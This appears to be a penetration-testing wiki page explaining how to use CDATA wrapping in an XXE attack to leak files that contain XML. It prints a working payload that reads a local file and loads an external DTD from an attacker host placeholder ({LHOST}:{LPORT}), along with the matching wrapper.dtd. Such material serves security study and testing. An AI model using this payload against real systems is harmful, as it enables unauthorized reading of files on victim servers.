 ```yaml
---
title: Pwning XML
tags:
  - advanced
  - web-app
  - pentesting
  - xml
  - injection
  - entities
  - entity
  - external
  - cdata
  - xxe
---
```


## Advanced file access with CDATA

We initially discuss XML External Entities (XXE) exploits in
[[xml-external-entities#Retrieving files|XML External Entities, Retrieving Files]],
however, the examples provided don't account for the content we're trying to
leak being valid XML, causing the XML parser to parse the contents of the file
we're trying to leak. This likely causes the parser to prematurely halt the
processing of our data.

Using the [CDATA](https://en.wikipedia.org/wiki/CDATA) directive, we can
instruct XML to ignore parsing elements within our data - just give us the raw
information from the file referenced. Here's an example XXE payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "file://{FILEPATH}" >
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://{LHOST}:{LPORT}/wrapper.dtd" >
%dtd;
]>
<org.opencrx.kernel.account1.Contact>
  <lastName>&wrapper;</lastName>
  <firstName>Tom</firstName>
</org.opencrx.kernel.account1.Contact>
```

In the above example, we define the `start` entity to be the start of the
`CDATA` XML entity. We specify which file we want to leak with the `file`
entity. Finally, we end the `CDATA` XML entity with the `end` entity. How do we
end up combining these elements?

We host a
[Document Type Definition (DTD)](https://www.w3schools.com/xml/xml_dtd.asp) and
reference it as an external entity. This external entity will combine the
`start`, `file`, and `end` entities as one final entity, `wrapper`. We invoke
the `dtd` entity, causing the victim host's XML parser to download the
`wrapper.dtd` DTD file from our attacker host. The contents of the
`wrapper.dtd` payload are provided below:

```xml
<!ENTITY wrapper "%start;%file;%end;">
```

Once the victim host successfully download's the `wrapper.dtd` DTD file, we
invoke the `wrapper` entity, causing the victim host to retrieve the file
specified by the `file` entity, and placing it in our `CDATA` entity for easy
exposure without XML parsing.

## Related pages

- [[xml-external-entities|XML external entities]]
